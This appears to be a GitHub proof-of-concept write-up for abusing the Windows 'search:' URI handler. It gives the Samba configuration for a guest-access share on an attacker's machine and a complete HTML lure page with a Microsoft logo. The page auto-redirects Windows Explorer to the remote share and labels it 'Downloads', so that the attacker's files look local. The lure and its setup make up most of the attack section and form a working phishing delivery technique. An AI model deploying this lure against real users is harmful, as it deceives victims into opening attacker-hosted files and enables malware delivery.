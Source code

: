 ## Victim's Machine
- OS - Windows 10 1909
- Build - 18363.1139

## Attacker's Machine
- OS - Ubuntu noble 24.04 x86_64
- Kernel - Linux 6.8.0-35-generic

## Setting Up

#### Attacker's Machine
- A SMB share needs to be setup on the Attacker's machine.
- The shared folder should be accessible by guests.
- SMB version needs to be forces between 2 and 3.
```Text
client min protocol = SMB2
client max protocol = SMB3
```
- The shared folder needs to be set to guest mode.
```Text
[Share]
path = /home/share
public = yes
guest only = yes
force create mode = 0666
force directory mode = 0777
browseable = yes
```
- For testing purposes, there is a text file ( Hacked.txt )  in the folder.![](Attachments/Pasted%20image%2020240722004846.png)

#### Victim's Machine
- The victim machine has a HTML file designed to open up the payload on the attackers machine and disguise it as a local file.
- The HTML file
```HTML
<html>
<head></head>
<body>
    <div id="in-page-channel-node-id" data-channel-name="in-page-channel-cnXeD0"></div>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
    <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <meta property="og:image" content="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg">
    <title>Untitled</title>
    <meta http-equiv="refresh" content="0; URL=search:query=hacked&amp;crumb=location:\\x-VBOX\Share&amp;displayname=Downloads"
    <p><a href="search:query=hacked&amp;crumb=location:\\x-VBOX\Share\&amp;displayname=Downloads">Untitled</p>
</body>
</html>
```


## The Exploit
- Victim opens the HTML file to see a webpage with a popup.![](Attachments/Pasted%20image%2020240722005020.png)
- Opening Windows Explorer![](Attachments/Pasted%20image%2020240722005156.png)
	1. Windows has searched for "hacked" .
	2. It appears as if the file is in "Downloads" .


## Notes
- Http servers didn't work for the exploit. Cannot access the files through windows explorer.
- Default linux Samba shares are not detected by windows as they use SMB1. SMB V2 & V3 needs to be forced in settings.